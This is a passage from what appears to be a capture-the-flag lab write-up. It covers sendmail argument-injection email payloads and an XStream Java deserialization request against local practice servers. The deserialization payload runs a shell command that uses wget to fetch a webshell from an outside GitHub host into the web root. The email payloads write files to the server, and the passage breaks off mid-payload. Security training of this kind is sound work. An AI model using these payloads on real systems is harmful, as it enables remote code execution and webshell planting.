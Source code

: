 1. `http://127.0.0.1:8103/`
    - `"vul\" -OQueueDirectory=/tmp -X/var/www/html/phpinfo.php " @t.co`
    - `vul( -OQueueDirectory=/tmp -X/var/www/html/phpinfo.php )@t.co`
    - ![](https://i.imgur.com/FOkU6O5.png)
    - ![](https://i.imgur.com/RbQnGjm.png)

**Flag: `FLAG{Mail_is_dangerous}`**

## 0x1D A9 - Practice 2

```
POST /orders/3/edit HTTP/1.1
Host: 127.0.0.1:8104
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2540

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/bin/sh</string>
                        <string>-c</string>
                        <string>cd webapps/ROOT/;wget https://raw.githubusercontent.com/tennc/webshell/master/jspx/jw.jspx</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
```